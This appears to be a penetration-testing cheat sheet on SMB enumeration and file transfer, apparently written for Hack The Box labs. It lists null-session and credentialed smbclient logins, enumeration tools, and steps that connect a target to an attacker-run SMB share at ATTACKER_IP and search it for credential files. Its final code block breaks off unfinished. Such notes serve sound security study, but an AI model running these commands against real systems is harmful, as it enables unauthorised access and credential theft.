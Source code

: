 
## Common Services

### SMB - 445
- Server Message BLock
- share of files on the network
- rpcclient '%' $TARGET
  - enumdomusers, netshareenumall
  - enum4linux $TARGET -A -C
- Commands
  - smbclient -L //$target/ = List Shares
  - smbclient -L //$target -U admin/administrator
  - smbclient //$target/Users = Interactive shell to a share 
  - smbclient  \\\\$target\\share$ = Open a Null Session
  - smbclient //friendzone.htb/general -U "" = see files inside
  - smbclient -N -L //$target/ = List Shares as Null User
  - smbmap -u Administrator -p 'Password@1' -H $target
  - smbclient -U 'administrator%Password@1' \\\\\$target\\c$
  - Nmap scripts
    - smb-enum-users.nse
    - smb-os-discovery
    - smb-protocols
    - smb-enum-shares
    - smb-vuln*

- Scripts
  - smb-enum*
  - smb-vuln*

- Transfer files
  - On attacking maching
    - smbserver.py share .
    - smbserver.py -smb2support -username USER -password PASS share /path/to/share/local
  - On target
    - net use \\AttackingIP\share
    - net use x: \\IP\share /user:USER PASS = send to drive X:
    - copy \\IP\\share\file.ext = fetch file
    - 
    - smbclient -U USER '//IP/folder'
    - put file.name
    - smbclient -c 'put pat.exe' -U USER -W ZA '//TARGET' PASSWORD

- Use impacket
```
# create server
sudo python3 /opt/impacket/examples/smbserver.py share . -smb2support -username user -password 1234567

# Connect to the SMB server
net use \\ATTACKER_IP\share /USER:user s3cureP@ssword 
net use n: \\ATTACKER_IP\share /USER:user s3cureP@ssword 
dir n: /a-d /s /b | find /c ":\\"= not directories, bare format | count
dir n:\*cred* /s /b

# Powershell
## Create object credential
$username = 'plaintext'
$password = 'Password123'
pass = convertto-securestring $password -asplain -force

# Option 1
$cred = new-object system.management.automation.pscredential('htb\john', $pass)

# Option 2
```